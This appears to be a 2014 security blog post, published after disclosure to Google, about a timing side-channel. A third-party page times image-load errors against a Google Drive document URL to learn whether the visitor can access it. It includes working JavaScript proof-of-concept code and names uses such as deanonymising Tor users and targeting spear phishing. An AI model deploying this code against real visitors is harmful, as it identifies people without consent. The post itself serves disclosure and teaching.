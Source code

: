 ```yaml
---
layout: post
title: "Demasking Google Users with a Timing Attack"
date: 2014-09-04 13:34:10 -0700
comments: true
categories: [security, javascript]
---
```

## Responsible Disclosure

I believe strongly in the [responsible disclosure](http://en.wikipedia.org/wiki/Responsible_disclosure) of security issues, [having participated in Google's responsible disclosure program in the past](http://blog.andrewcantino.com/blog/2011/12/14/hacking-google-for-fun-and-profit/) and helping to run a similar [disclosure program](https://hackerone.com/mavenlink) at Mavenlink.

The issues discussed in this post were responsibly disclosed to Google Security.  Google triaged the issues, talked to the involved teams, and declined the opportunity to fix.  They gave me written permission to blog about this.

# The Attack

**Summary**: A 3rd party site can determine if a website viewer has access to a particular Google Drive document.

**Implications**: An attacker could share a document with one or more email addresses, but uncheck the option that causes Google to send a notification.  Now the attacking site can figure out when someone logged into any of the shared addresses visits their site.  This is mostly useful for very targeted attacks, where an attacking site needs to behave differently based on who is viewing.  This could be used for spear phishing, identification of government officials, demasking users of TOR, industrial mischief, etc.

**How it works**:  The attack is straightforward. A malicious page repeatedly instantiates an image whose source points at the URL of a Google Drive document.  If that document is viewable by the visitor, loading the resulting page will take longer than if the document is not viewable.  Since the result isn't an image, the `onerror` callback of the image is triggered in both cases, but we can record how long it takes from image instantiation to triggering of the `onerror`.  This time will be greater when the document is accessible.  In my experiments, loading took an average of 891ms when the document was available, but 573ms when it was not.  Since this is going to be connection-dependent, it makes sense to simultaneously test against a document that is always known to be inaccessible, then compare times with the probe document.

Google chose not to fix this issue, as "the risk here is fairly low, both in terms of impact and difficulty of exploiting this against a large population, and we don't have an effective solution".  I don't really disagree with them-- this *is* hard to fix, and fairly theoretical.  Still, I think this is an interesting example of a timing attack, and shows how hard these sorts of issues can be to avoid.

Here is some example code:

``` javascript
var urls = {
  hasAccess: "https://docs.google.com/document/....../edit",
  doesNotHaveAccess: "https://docs.google.com/document/....../edit"
};

function addImage(src, callback) {
  var elem = document.createElement("IMG");
  elem.src = src + "?r=" + Math.random();
  elem.onerror = callback;
  $("body").append(elem);
}

var times = { 
  hasAccess: { sum: 0, count: 0 }, 
  doesNotHaveAccess: { sum: 0, count: 0 }
};

var testRuns = 40; // a smaller number can be used

function nextTest() {
  testRuns--;
  if (testRuns > 0) {
    var type = Math.random() > 0.5 ? 'hasAccess' : 'doesNotHaveAccess';
    var startTime = new Date().getTime();
    addImage(urls[type], function() {
      var endTime = new Date().getTime();
      times[type].count++;
      times[type].sum = times[type].sum + (endTime - startTime);
      setTimeout(nextTest, 100); // a shorter timeout is fine
    });
  } else {
    $("body").append("hasAccess: " + (times.hasAccess.sum / times.hasAccess.count) + "<br />" + "doesNotHaveAccess: " + (times.doesNotHaveAccess.sum / times.doesNotHaveAccess.count));
  }
}

nextTest()
```
